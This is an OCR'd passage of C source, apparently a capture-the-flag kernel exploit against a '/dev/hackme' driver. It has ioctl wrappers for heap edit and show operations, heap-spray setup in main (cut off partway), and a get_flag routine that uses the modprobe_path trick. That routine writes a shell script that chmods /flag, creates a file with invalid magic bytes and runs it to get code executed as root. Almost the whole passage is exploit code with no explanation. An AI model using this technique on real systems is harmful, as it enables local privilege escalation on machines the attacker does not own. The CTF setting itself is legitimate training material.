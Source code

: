     void edit(int index, size_t len, size_t offset, char *data)
    {
    	struct Heap heap;
    	heap.index = index;
    	heap.data = data;
    	heap.len = len;
    	heap.offset = offset;
    	ioctl(fd, 0x30002, &heap);
    }
    
    void show(int index, size_t len, size_t offset, char *data)
    {
    	struct Heap heap;
    	heap.index = index;
    	heap.data = data;
    	heap.len = len;
    	heap.offset = offset;
    	ioctl(fd, 0x30003, &heap);
    }
    
    void get_flag()
    {
    	puts("[+] Prepare shell file.");
    	system("echo -ne '#!/bin/sh\n/bin/chmod 777 /flag\n' > /shell.sh");
    	system("chmod +x /shell.sh");
    	
    	puts("[+] Prepare trigger file.");
    	system("echo -ne '\\xff\\xff\\xff\\xff' > /FXC");
    	system("chmod +x /FXC");
    	
    	system("cat /proc/sys/kernel/modprobe");
    	system("/FXC");
    	system("cat /flag");
    	
    	sleep(5);
    }
    
    int main()
    {
    	fd = open("/dev/hackme",0);
    	if(fd < 0)
    	{
    		puts("[-] open file error");
    		sleep(3);
    		exit(0);
    	}
    
    	char buf[0x1000] = {0};
    	
    	add(0, 0x100, buf); // 0
    	add(1, 0x100, buf); // 1
    	add(2, 0x100, buf); // 2
    	add(3, 0x100, buf); // 3
    	add(4, 0x100, buf); // 4
    